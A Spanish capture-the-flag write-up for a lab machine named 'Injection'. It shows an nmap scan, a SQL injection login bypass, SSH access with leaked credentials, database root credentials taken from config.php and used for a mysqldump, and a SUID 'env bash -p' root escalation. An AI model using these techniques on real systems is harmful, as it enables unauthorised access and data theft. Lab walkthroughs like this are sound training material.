 Nombre de la máquina: Injection
Dificultad: Muy fácil 
Tiempo: 1 hora


Empezamos con un escaneo normal:

`
nmap 172.17.0.3
`

En el que obtenemos como respuesta que los puertos 22/TCP y 80/TCP están abiertos. 

Al tener esta información, podemos ser ya un poco más especificos e intentar obtener más datos que nos puedan ayudar:

`
nmap 172.17.0.3 -sV -p 22,80
`

R:
`
PORT   STATE SERVICE VERSION
22/tcp open  ssh     OpenSSH 8.9p1 Ubuntu 3ubuntu0.6 (Ubuntu Linux; protocol 2.0)
80/tcp open  http    Apache httpd 2.4.52 ((Ubuntu))
`

Como en el puerto 80/TCP está corriendo una página web, probaremos a poner en nuestro navegador 172.17.0.3 para ver que tipo de página es. 
La web que está alojando Apache es una página de login, como la máquina se llama Injection, suponemos que será algo relacionado con SQLInjection y probaremos a introducir en el campo del nombre " admin' or 1=1; " y la contraseña cualquier cosa. 

Con eso hemos conseguido acceder y visualizar el siguiente mensaje:
`Bienvenido Dylan! Has insertado correctamente tu contraseña: KJSDFG789FGSDF78`

Tenemos un nombre de usuario (Dylan) y un código (KJSDFG789FGSDF78) que puede ser una contraseña. Probamos a conectarnos por ssh con esas credenciales:
`
ssh dylan@172.17.0.3 
` 

El acceso fue exitoso. Ya estamos dentro de la máquina. Con sudo -l obtuve una respuesta de que el comando no existía asi que no se me ocurría una forma de poder escalar privilegios, estuve explorando las carpetas de ssh y tampoco encontré nada. Sin embargo, en las carpetas del servidor web, /var/www/html haciendo un cat del archivo config.php:
`
<?php
return [
        'db' => [
                'host' => 'localhost',
                'user' => 'root',
                'passwd' => 'paso',
                'dbname' => 'register',
                'options' => [
                        PDO::ATTR_ERRMODE => PDO::ERRMODE_EXCEPTION
                ]
        ]
];
?>
` 

Intentaremos conectarnos con mysql utilizando esas credenciales:
`
mysql -u root -ppaso
`

Hacemos un:
`
show databases;
 use register;
 select * from users;
 ` 
Aunque ya sabemos que existe una base de datos llamada register, pues aparece en config.php, obtenemos:
`
+----------+------------------+
| username | passwd           |
+----------+------------------+
| dylan    | KJSDFG789FGSDF78 |
+----------+------------------+
` 

Era información que ya teniamos, pero probaremos lo siguiente:
`
INSERT INTO users VALUES ('prueba','123456');
INSERT INTO users VALUES ('prueba','123456');
DELETE FROM users WHERE username='prueba1';
`
Todas las consultas fueron exitosas, por lo que podemos decir que tenemos control sobre esa base de datos, pues podemos crear y eliminar los que queramos. Al igual que hacer un:
`
mysqldump --databases register -u root -ppaso > datos.sql
`
Para obtener los datos.

Aunque aún no fuimos capaces de escalar privilegios en la máquina. 


`find / -perm -4000 -user root 2>/dev/null`

`/usr/bin/env /bin/bash -p`











